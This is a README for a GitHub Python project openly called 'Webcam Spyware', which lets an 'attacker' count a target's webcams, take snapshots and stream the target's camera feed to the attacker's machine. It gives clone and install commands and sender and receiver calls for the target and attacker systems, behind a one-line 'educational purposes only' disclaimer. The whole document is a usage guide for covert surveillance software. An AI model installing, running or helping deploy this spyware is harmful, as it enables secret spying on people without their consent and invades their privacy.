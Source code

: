 # Webcam Spyware

## Disclaimer

This script is for educational purposes only, I don't endorse or promote it's illegal usage

## Table of Contents

1. [Overview](#overview)
2. [Features](#features)
3. [Languages](#languages)
4. [Installations](#installations)
5. [Usage](#usage)
6. [Run](#run)

## Overview

This script allows an attacker spy on a target through the webcam

## Features

- You can check how many webcam are active on the target's system
- You can take snapshot with the target's webcam
- It streams the target's webcam view to the attacker

## Languages

- Python 3.9.7

## Installations

```shell
git clone https://github.com/favoursyre/webcam-spyware.git && cd webcam-spyware
```

```shell
pip install opencv-python
```

## Usage

To check how many webcams are active on the system

```python
cam = Webcam().camScanner()
```

To take a snapshot using the webcam

```python
camPort = 0
cam = Webcam().snapShot(camPort)
```

To stream the webcam view from the target to the attacker
On target's system

```python
cam = Webcam().sender()
```

On attacker's system

```python
host = "target-ip-address"
cam = Webcam().receiver(host)
```

## Run

```shell
python webcam.py
```

To use the streaming function, first run the software on target's system before running on the attacker's system
